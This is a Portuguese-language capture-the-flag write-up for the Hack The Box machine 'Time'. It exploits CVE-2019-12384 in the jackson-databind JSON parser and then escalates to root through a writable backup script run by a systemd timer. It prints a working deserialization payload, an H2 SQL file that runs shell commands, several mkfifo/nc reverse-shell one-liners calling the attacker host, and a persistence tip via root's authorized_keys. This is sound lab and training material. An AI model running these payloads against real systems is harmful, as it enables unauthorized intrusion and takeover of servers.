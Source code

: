 ```yaml
---
layout: single
title: "Hackthebox write-up: Time"
namespace: htb-time
category: Writeup
tags: HackTheBox htb-medium htb-linux
date: 2021-04-03 16:00:00
header:
   teaser: https://i.imgur.com/dL9pe5L.png
---
```


Olá pessoal!

A máquina desta semana será **Time**, outra máquina Linux classificada como mediana do [Hack The Box](https://www.hackthebox.eu), criada por [egotisticalSW](https://app.hackthebox.eu/users/94858) e [felamos](https://app.hackthebox.eu/users/27390).<!--more-->

:information_source: **Info**: Write-ups para máquinas do Hack The Box são postados assim que as respectivas máquinas são aposentadas
{: .notice--info}

![Time](https://i.imgur.com/UViaunV.png){: .align-center}

## Enumeração

Iniciamos com a enumeração dos serviços publicado a partir de um quick scan do `nmap`, onde o output se encontra abaixo.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.214
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-26 16:08 -03
Nmap scan report for 10.10.10.214
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```

### 80/TCP - Serviço HTTP

Iniciando a verificação pelo serviço HTTP que executa na porta 80, vemos que temos um serviço de validação e formatação de arquivo JSON

![Online JSON Parser - Time](https://i.imgur.com/KWUpOXL.png){: .align-center}

Após executar algumas enumerações utilizando `whatweb` e `nikto` não encontrei nada útil, logo parti para a enumeração da aplicação buscando por alguma vulnerabilidade de injeção de código ou LFI.

Analisando a aplicação temos duas funcionalidades: **Beautify** e **Validate**:

- A opção **beautify**, ao receber um JSON válido, o formata de forma "bonita" e, ao enviar um request inválido (por exemplo "test"), retorna o valor `null`.

![image-20210227103837978](https://i.imgur.com/gwqqcNt.png){: .align-center}

- Já a opção em beta **validate** verifica a sintaxe do JSON fornecido. Quando enviamos um request inválido (por exemplo "test"), exceção não esperada da aplicação é exibida.

  ```output
  Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN
  ```

## Acesso inicial

Ao buscar por `com.fasterxml.jackson.core` encontrei detalhes sobre o projeto **Jackson**, desenvolvido pela **FasterXML** e do qual o componente core é base para o [jackson-databind](https://github.com/FasterXML/jackson-databind), popular pela sua biblioteca de JSON, a qual é implementada neste portal para as funcionalidades de validação e formatação.

Pesquisando por CVEs para o jackson-databind, os seguintes foram encontrados para execução de código em 2019, de acordo com o site [CVE Details](https://www.cvedetails.com):

![image-20210227112026175](https://i.imgur.com/ju87o1J.png){: .align-center}

Dos 4 itens listados, encontrei para o **CVE-2019-12384** um PoC funcional [neste blog](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html), o qual utilizei para obter o acesso inicial. Os seguintes passos foram executados para obter um shell reverso:

- Criação de um arquivo `inject.sql` com o código abaixo, modificado da versão do blog para iniciar um shell reverso para a máquina atacante na porta 4443 e publicado usando um servidor HTTP python3 (`sudo python3 -m http.server 80`) a partir do diretório de onde o arquivo se encontra.

  ```sql
  CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
      String[] command = {"bash", "-c", cmd};
      java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
      return s.hasNext() ? s.next() : "";  }
  $$;
  CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f')
  ```

- Configurando listener via netcat com o comando `nc -lnvp 4443`.
- Enviado o payload abaixo na aplicação no lugar do JSON a ser validado.

  ```output
  ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.10.10/inject.sql'"}]
  ```

![Listener and Webserver - Time](https://i.imgur.com/xsb87hN.png){: .align-center}

![Online Json Parser - Sending the payload](https://i.imgur.com/SiAG5hB.png){: .align-center}

## User flag

Após upgrade do shell, iniciado enumeração e identificado que o usuário utilizado, **pericles**, era um usuário comum do Linux e não possuía nenhum tipo de privilégio especial.

```bash
pericles@time:/var/www/html$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```

Acessando seu diretório raiz, encontrado o user.txt onde foi obtido o primeiro flag.

```bash
pericles@time:/var/www/html$ cd ~
pericles@time:/home/pericles$ cat user.txt 
<redacted>
pericles@time:/home/pericles$ 
```

## Root flag

Antes de dar continuidade na enumeração, para simplificar o processo de obtenção de um shell reverso se necessário, criado uma chave SSH usando o `ssh-keygen` e incluído a chave pública no arquivo `~/.ssh/authorized_keys`, o que nos permidiu conectar diretamente ao usuário pericles via SSH.

A enumeração foi realizada utilizando o script `linpeas.sh` e um dos itens encontrados chamou bastante atenção, fazendo referência ao nome da máquina: um arquivo shell de propriedade do usuário `pericles` no caminho `/usr/bin/timer_backup.sh`.

Este arquivo está configurado para execução através de um **system timer** (`/etc/systemd/system/timer_backup.timer` e `/etc/systemd/system/timer_backup.service`) e configurado para execução **a cada 10s** com privilegios de `root`.

Como temos privilégios para editar o shell script, inclui a linha abaixo para obter um shell reverso e, após alguns segundos, recebi um shell reverso! :smile:

```bash
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/g
```

Como o processo é reexecutado após 10s, todos os processos existentes são finalizados e perdemos a conexão com a máquina. Apenas obter o flag de root é uma tarefa possível neste tempo, o que foi utilizado inicialmente.

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.214] 33304
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
#      
```

Caso queira uma conexão mais persistente temos duas opções iniciais:

- Configurar o system timer para incluir a chave pública no arquivo `/root/.ssh/authorized_keys`, nos permitindo conectar via SSH como `root`.
- Iniciar outro shell reverso assim que obtermos a conexão inicial, que pode ser alcançado de múltiplas formas como Metasploit AutoRunScript e colocando uma instrução para ser passada assim que uma conexão via netcat é estabelecida, conforme podemos ver abaixo onde o comando `id` é executado assim que a sessão é iniciada:

```bash
printf "id\n" | nc -lnvp 4443
```

Espero que tenha sido útil e vejo vocês no próximo post! :smiley:
